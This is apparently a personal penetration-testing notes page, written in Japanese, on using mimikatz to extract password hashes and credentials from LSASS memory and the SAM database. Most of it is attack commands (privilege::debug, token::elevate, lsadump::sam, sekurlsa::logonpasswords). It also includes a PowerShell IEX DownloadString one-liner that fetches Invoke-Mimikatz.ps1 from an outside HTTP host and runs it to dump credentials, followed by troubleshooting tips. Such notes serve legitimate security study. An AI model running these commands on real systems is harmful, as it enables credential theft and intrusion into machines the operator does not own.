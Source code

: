 # mimikatz

### LSASS（Local Security Authority Subsystem）のプロセスメモリにキャッシュされているパスワードハッシュの抽出

```cmd
mimikatz.exe
# seDebugPrivilegeを有効にする
privilege::debug
# 整合性レベルをhigh→systemに
token::elevate
lsadump::sam
```

![image-20230106165509557](img/mimikatz/image-20230106165509557.png)

※lsadump::samを使ってSAMデータベースの内容をダンプしている

※LSASSはSYSTEMプロセスであり、管理者権限で動作するmimikatzよりもさらに高い権限を持っている

```
sekurlsa::logonpasswords
```

※ privilege::debugは整合性レベル高だけでは実行できず、管理者権限で実行する必要がある可能性がある（少し調べたが現時点事実を確認できていない）

以下のようなエラーが出た場合は、権限がない。

![image-20230211151523273](img/mimikatz/image-20230211151523273.png)



## Invoke-mimikatz

```cmd
powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.138/Invoke-Mimikatz.ps1')

Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```

※まだ実行に成功したことがない

※実行コマンドはコマンドプロンプトで打つより、Invoke-Mimikatz.ps1の後ろの行に記載した方がいいかも



## コマンドのチートシート

https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords



## トラブルシュート

### Key importエラー

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
```

https://0xdf.gitlab.io/2019/08/17/htb-helpline-kali.html

![image-20230220192222801](img/mimikatz/image-20230220192222801.png)

古いmimikatzバージョンが必要

https://github.com/caday00/mimikatz2.1.1

